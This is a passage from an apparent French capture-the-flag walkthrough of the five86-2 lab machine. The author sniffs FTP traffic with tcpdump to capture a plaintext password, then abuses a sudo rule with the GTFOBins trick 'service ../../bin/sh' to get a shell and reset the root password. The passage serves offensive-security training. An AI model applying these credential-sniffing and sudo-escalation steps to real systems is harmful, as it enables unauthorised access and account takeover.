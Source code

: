 Je mets le port 21 sur écoute et j'attends un peu :

```console
stephen@five86-2:~$ tcpdump -i any -X "tcp port 21"
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on any, link-type LINUX_SLL (Linux cooked v1), capture size 262144 bytes
16:54:11.802536 IP five86-2.60646 > 172.18.0.10.ftp: Flags [P.], seq 1:12, ack 58, win 502, options [nop,nop,TS val 1863508039 ecr 2147577322], length 11: FTP: USER paul
        0x0000:  4510 003f 5b30 4000 4006 8749 ac12 0001  E..?[0@.@..I....
        0x0010:  ac12 000a ece6 0015 933b b364 fd23 fc04  .........;.d.#..
        0x0020:  8018 01f6 5861 0000 0101 080a 6f12 e047  ....Xa......o..G
        0x0030:  8001 6dea 5553 4552 2070 6175 6c0d 0a    ..m.USER.paul..
16:54:11.808018 IP 172.18.0.10.ftp > five86-2.60646: Flags [P.], seq 58:90, ack 12, win 510, options [nop,nop,TS val 2147577328 ecr 1863508039], length 32: FTP: 331 Password required for paul
        0x0000:  4500 0054 a4ea 4000 4006 3d8a ac12 000a  E..T..@.@.=.....
        0x0010:  ac12 0001 0015 ece6 fd23 fc04 933b b36f  .........#...;.o
        0x0020:  8018 01fe 5876 0000 0101 080a 8001 6df0  ....Xv........m.
        0x0030:  6f12 e047 3333 3120 5061 7373 776f 7264  o..G331.Password
        0x0040:  2072 6571 7569 7265 6420 666f 7220 7061  .required.for.pa
        0x0050:  756c 0d0a                                ul..
16:54:11.808738 IP five86-2.60646 > 172.18.0.10.ftp: Flags [P.], seq 12:33, ack 90, win 502, options [nop,nop,TS val 1863508045 ecr 2147577328], length 21: FTP: PASS esomepasswford
        0x0000:  4510 0049 5b32 4000 4006 873d ac12 0001  E..I[2@.@..=....
        0x0010:  ac12 000a ece6 0015 933b b36f fd23 fc24  .........;.o.#.$
        0x0020:  8018 01f6 586b 0000 0101 080a 6f12 e04d  ....Xk......o..M
        0x0030:  8001 6df0 5041 5353 2065 736f 6d65 7061  ..m.PASS.esomepa
        0x0040:  7373 7766 6f72 640d 0a                   sswford..

```

Le mot de passe récupéré (`esomepasswford`) permet de se connecter avec le compte de `paul`.

## GTFO

`Paul` a une autorisation de `Peter` pour la commande `service`.

```console
paul@five86-2:~$ sudo -l
Matching Defaults entries for paul on five86-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User paul may run the following commands on five86-2:
    (peter) NOPASSWD: /usr/sbin/service
```

Grâce à la base _GTFObins_ je trouve [une entrée](https://gtfobins.github.io/gtfobins/service/) spécifique à ce service.

La suite est assez simple : `Peter` peut réinitialiser le mot de passe de n'importe qui, on change donc celui de root :

```console
paul@five86-2:~$ sudo -u peter /usr/sbin/service ../../bin/sh
$ id
uid=1003(peter) gid=1003(peter) groups=1003(peter),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lxd),1010(ncgroup)
$ sudo -l
Matching Defaults entries for peter on five86-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User peter may run the following commands on five86-2:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/passwd
$ sudo -u root /usr/bin/passwd
New password: 
```